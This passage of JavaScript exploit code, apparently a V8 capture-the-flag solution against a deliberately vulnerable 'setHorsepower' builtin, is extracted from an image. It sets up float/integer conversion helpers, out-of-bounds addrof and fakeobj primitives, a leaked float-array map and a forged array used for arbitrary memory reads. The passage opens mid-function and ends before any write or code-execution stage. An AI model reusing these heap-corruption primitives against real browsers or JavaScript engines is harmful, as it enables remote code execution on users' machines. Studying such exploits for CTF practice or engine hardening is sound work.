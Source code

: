 ```javascript
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n) // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn)
    u64_buf[1] = Number(val >> 32n)
    return f64_buf[0]
}


a = [{}, 2.2]
b = [3.3, 4.4]

off = 15

a.setHorsepower(20)
b.setHorsepower(50)



function addrof(obj){
    a[off] = obj
    return ftoi(b[0]) & 0xffffffffn
}


function fakeobj(addr){
    b[0] = itof(addr)
    return a[off]
}


d = {}
print("d test @", hex(addrof(d)))

while(addrof(d) == 0x66666666){
    off++
    print("d test @", hex(addrof(d)))
}


float_map = ftoi(b[2]) & 0xffffffffn

print("float map", hex(float_map))


c = [itof(float_map), itof((4n << 32n) + 0x69696969n)]

print("c @", hex(addrof(c)))



function read(addr){
    if (addr % 2n == 0){
        addr += 1n
    }

    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 60n + 8n)

    return ftoi(fake[0])
}
```